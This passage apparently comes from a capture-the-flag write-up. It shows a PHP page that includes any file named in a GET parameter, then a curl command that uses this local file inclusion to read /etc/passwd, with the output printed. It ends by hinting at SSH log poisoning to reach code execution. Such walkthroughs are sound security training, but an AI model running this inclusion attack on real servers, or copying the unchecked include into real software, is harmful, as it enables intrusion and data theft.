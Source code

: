 The source code is provided.

```php
<?php
    $file = $_GET['file'];
    if(isset($file))
    {
        include("$file");
    }
    else
    {
        include("/var/log/backup.log");
    }
?>
```

The default behavior is to include the backup log file. However, we can specify a file to include by passing it as a GET parameter. This LFI allows us to read any file that the user running the web server is allowed to read.

```plain
bob@dev:~$ curl backup?file=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:105:107::/home/syslog:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
dave:x:1000:1000:,,,:/home/dave:/bin/bash
```

Now how can we leverage this to get access to the backup machine ? Here again, the challenge's description is a hint. Historically, poison is considered as women's weapon.

It's indeed possible to RCE with an LFI through ssh log poisonning.
